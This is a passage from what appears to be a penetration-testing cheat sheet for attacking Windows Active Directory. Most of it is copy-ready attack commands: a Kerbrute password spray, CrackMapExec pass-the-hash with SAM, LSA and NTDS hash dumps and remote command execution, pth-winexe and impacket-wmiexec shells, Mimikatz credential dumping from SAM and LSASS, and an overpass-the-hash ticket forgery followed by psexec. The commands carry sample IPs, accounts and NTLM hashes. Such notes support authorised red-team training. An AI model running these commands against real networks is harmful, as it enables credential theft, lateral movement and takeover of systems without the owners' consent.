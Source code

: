 ```bash
        users.txt from Get-NetUser

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### Pass the hash (lateral movement) for NTLM only
- Access local SAM database (C:\Windows\System32\config\SAM) and dump all local hashes

#### Using Crackmapexec
- Path storing hashes: `~/.cme/logs`. 3 types of files: .sam, .secrets, .cached
 
- Dump SAM hashes: `crackmapexec smb 192.168.1.54 -u ippsec -p Password12345 --sam`
- Dump LSA dump (domain credentials): `crackmapexec smb 192.168.1.54 -u ippsec -p Password12345 --lsa`
- Exploitation: `crackmapexec smb 192.168.1.54 -u jenkinsadmin -H ffffffffffffffffffffffff -X 'whoami'`
- Exploitation to dump all hashes (if is domain admin access): `crackmapexec smb 192.168.1.50 -u jenkinsadmin -H ffffffffffffffffffffffff --ntds`
- Exploitation to run commands as another user using PTH: `crackmapexec winrm 192.168.1.50 -u s4vitar -H ffffffffffffffffffffffff -X 'whoami'`

#### Using pth-winexe 
- pass the hash get a shell immediately: `sudo pth-winexe -U web/administrator%<hash:hash> //192.168.1.54 cmd.exe`

```powershell
PS C:\users\public > mimikatz.exe "privilege::debug" "lsadump::sam" "exit" > sam.txt
```

- Obtaining hash of an SPN user using **Mimikatz** (Tool: mimikatz)
```powershell
#dump hashes for all users logged on to the current workstation or server, including remote logins like Remote Desktop sessions.
#dump credentials stored in LSASS and cache hashes
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```

- Pass the hash

```bash
#using crackmapexec on kali to access x.105 and host in 192.168.57.0/24
crackmapexec smb 192.168.1.105 -u Administrator -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
        crackmapexec 192.168.57.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b -- local

#using wmiexec on kali
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

### Overpass the hash (convert NTLM hash into a Kerberos TGT, then use TGT to obtain TGS)
```bash
#output is a kerberos ticket
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

# Checking if the forged tickets is in memory
ps> klist

#get shell
psexec.exe -accepteula \\<remote_hostname> cmd  
```
